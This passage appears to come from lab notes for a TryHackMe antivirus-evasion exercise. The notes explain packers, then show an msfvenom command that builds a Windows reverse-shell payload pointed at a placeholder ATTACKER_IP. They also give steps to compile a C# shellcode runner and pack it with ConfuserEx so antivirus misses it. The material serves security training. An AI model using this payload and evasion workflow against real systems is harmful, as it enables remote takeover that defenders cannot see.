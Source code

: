 AV solutions, however, could still catch your packed application for a couple of reasons:

- While your original code might be transformed into something unrecognizable, remember that the packed executable contains a stub with the unpacker's code. If the unpacker has a known signature, AV solutions might still flag any packed executable based on the unpacker stub alone.
- At some point, your application will unpack the original code into memory so that it can be executed. If the AV solution you are trying to bypass can do in-memory scans, you might still be detected after your code is unpacked.

# Packing our shellcode

Let's start from a basic C# shellcode. You can also find this code in your Windows machine at **`C:\Tools\CS Files\UnEncStagelessPayload.cs`**:

[*Full Payload Code (Click to read)*](Task%209%20Packers%2064e073a4ec524de1b4750bc0fcf281b1/UnEncStagelessPayload%20cs%2055610f64dfcf40a5ae1dea6a4cee0557.md)

This payload takes a shellcode generated by msfvenom and runs it into a separate thread. For this to work, you'll need to generate a new shellcode and put it into the **`shellcode`** variable of the code:

Command Prompt

```
C:\> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
```

You can then compile your payload in the Windows machine using the following command:

Command Prompt

```
C:\> csc UnEncStagelessPayload.cs
```

```bash
csc UnEncStagelessPayload.cs
```

> you need to copy the shell code generated into the cs file before runing the csc command
> 

Once you have a working executable, you can try uploading it to the THM Antivirus Check! page (link on the desktop). It should be flagged by the AV immediately. Let's use a packer on the same payload and see what happens.

We will use the [ConfuserEx](https://github.com/mkaring/ConfuserEx/releases/tag/v1.6.0) packer for this task, as our payloads are programmed on **`.NET`**. For your convenience, you can find a shortcut on your desktop to it.

ConfuserEx will require you to indicate the folders in which it will work. Be sure to select your desktop as the base directory, as shown in the image below. Once the base directory is set up, drag and drop the executable you want to pack on the interface, and you should end up with the following:

![https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/9214df2a88ffffbf8561502aa19a375c.png](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/9214df2a88ffffbf8561502aa19a375c.png)
